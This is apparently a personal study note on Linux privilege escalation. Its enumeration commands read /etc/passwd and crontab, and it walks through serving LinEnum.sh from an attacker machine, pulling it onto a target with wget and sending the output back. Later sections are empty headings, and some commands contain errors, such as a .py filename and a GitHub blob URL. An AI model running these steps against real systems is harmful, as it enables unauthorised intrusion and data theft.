

# Linux Privilege Escalation

## Enumeration

### Query the System

`:> hostname` : Query the hostname  

`:> uname -a`  : Query Kernel information  

`:> cat /etc/passwd`  :  Identify system users  

`:> cat /etc/shells` : Identify potentially useful shells on the system

`:> cat /etc/crontab` : List cron jobs

`:> cat /proc/version` : Specifics about the kern verion and the GCC compilers use to build the kernel  

`:> cat /etc/issue` : Contains the pre-login prompt and can be changed

### LinEnum.sh to Exfiltrate the system information

Get LinEnum.sh onto the attacking device

`:> wget -O LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/refs/heads/master/LinEnum.sh`

Gain access to the target machine

Open a simple server on the attacking device in the directory from where LinEnum can be transported.

`:> python3 -m http.server 8888`

  

On the target device, set up a location from where the script will run.  

  

Pull the script from the python server to the target device.  

`:> wget 10.201.47.243:8888/LinEnum.sh`

The serving attacker logs the "GET" request and the target device recevies the script

  

If the target device is permitted a WAN connection, pull the script from GitHub.

`:> wget -O LinEnumFromGit.sh https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh`  

Add execution privileges to the script 

`:> chmod +x LinEnum.py`

  

Run the script and output to a file that can be studied for escalation opportunities

`:> ./LinEnum.sh > enum.txt`

Shutdown the server on the attacking device

  

Reverse the server setup and transfer the enum.txt to the attacking device for analysis and resource development.

### Use FIND to identify useful file properties and attributes  

## SUID/GUID 

## Writeable /etc/passwd files

## Escaping the Vi editor

## Exploit Crontab

## Exploiting the PATH variable